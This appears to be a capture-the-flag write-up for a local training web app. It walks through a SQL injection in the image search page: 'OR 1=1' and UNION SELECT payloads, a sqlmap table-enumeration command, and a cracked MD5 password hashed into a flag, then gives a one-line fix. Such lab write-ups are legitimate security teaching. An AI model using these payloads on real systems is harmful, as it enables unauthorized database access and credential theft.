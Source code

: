 # SQL Injection Image

In the image search form perfoms a DB search by id value provided by the client without sanitizing input.

## Steps
* Proceed to <a href="http://192.168.0.108/?page=searchimg">search image page</a>
* In the search field enter then submit:
	1 OR 1=1
* Open your terminal
* Run reconnaissiance
```bash
	sqlmap "http://192.168.0.108/?page=searchimg&id=1&Submit=Submit#" --tables
```
* We want to UNION SELECT to append another select statement

* In the search field enter:
	1 OR 1=1 UNION SELECT id, comment FROM list_image

* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt the password</a>
	1928e8083cf461a51303633093573c46 --> albatroz

* In your terminal run
```bash
        cd ./Resources

	py sha256encrypt.py albatroz
```

## Ways to secure
* Validate and sanitize client input on the server

